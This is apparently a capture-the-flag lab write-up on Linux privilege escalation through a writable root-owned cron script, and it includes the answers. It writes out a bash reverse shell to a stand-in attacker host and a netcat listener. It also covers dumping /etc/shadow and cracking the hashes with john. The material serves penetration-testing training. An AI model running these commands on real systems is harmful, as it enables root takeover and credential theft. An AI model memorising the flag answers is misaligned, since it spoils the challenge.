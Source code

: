 ## Cron jobs execute scripts at scheduled times with the owner’s privileges. While not inherently vulnerable, they can be exploited for privilege escalation if a root-owned cron job runs a modifiable script.

- Crontabs store cron job configurations, with system-wide jobs located in /etc/crontab.
- Finding a root-owned cron job that executes a modifiable script allows attackers to inject a reverse shell.
- Attackers use available system tools (e.g., nc) to establish a root shell on an attacking machine.
- Common misconfigurations in companies:
  - Admins schedule cron jobs but forget to remove them after deleting scripts.
  - If the script’s full path isn’t specified, attackers can place a malicious script in a searchable path (e.g., home directory).
    Some tools in scripts (e.g., tar, 7z, rsync) can be exploited using wildcard vulnerabilities.
- Always check crontabs, as they can provide easy privilege escalation opportunities, especially in poorly maintained systems.

### Q.1: How many user-defined cron jobs can you see on the target system?

This one is easy is you read through the tab. We simply need to read the crontab file to see the user-defined cron jobs: ```cat /etc/crontab```
We see 4 cron jobs.

### Answer: 4

### Q.2: What is the content of the flag5.txt file?
There are many vulnerabilities related to these cronjobs. The backup.sh job is writable by karen, but run as root, which you see by running **ls -la**:

You can see the **backup.sh** script was configured to run every minute. As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges. I decided to edit the **home/karen/backup.sh** file. Start by editing the file: ```nano /home/karen/backup.sh```
Enter the following, but make sure you edit the ip. I tried using the example from the article but it did not work.
```
#!/bin/bash
bash -i >& /dev/tcp/<attacker ip>/6666 0>&1
```
And save this script as **backup.sh**.
One last thing: you need to give the backup.sh script executable permissions by running: ```chmod +x backup.sh```

Then, all that is left is to start a netcat listener on your attacker machine: ```nc -lvnp 6666```
In the target machine we need to run the ```./backup.sh``` file.

In attacker/our machine we got **root** access. If you don't get the root access, try again to connect attacker machine to target machine.

But we need to find out where the flag is: ```find / -name flag5.txt 2>/dev/null```

Read the flag from the path: ```cat /home/ubuntu/flag5.txt```

There we go!
### Answer: THM-383000283 

### Q.3: What is Matt's password?

We need to do the same thing as in an earlier task. Read the passwd and shadow files, copy to the **attacker/our** machine, unshadow the files, and run john on the result.

Firstly, we has to export the **passwd** & **shadow** file following command:
```cat /etc/passwd > passwd.txt && cat /etc/shadow > shadow.txt```

Now copy these two files to the **attacker/our** machine. Then unshadow the files using following command: 
```unshadow passwd.txt shadow.txt > passwords.txt```

Now we can use john to crack this passwords.txt file. Do so by running the following command:
```john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt```

We found the answer!

### Answer: 123456

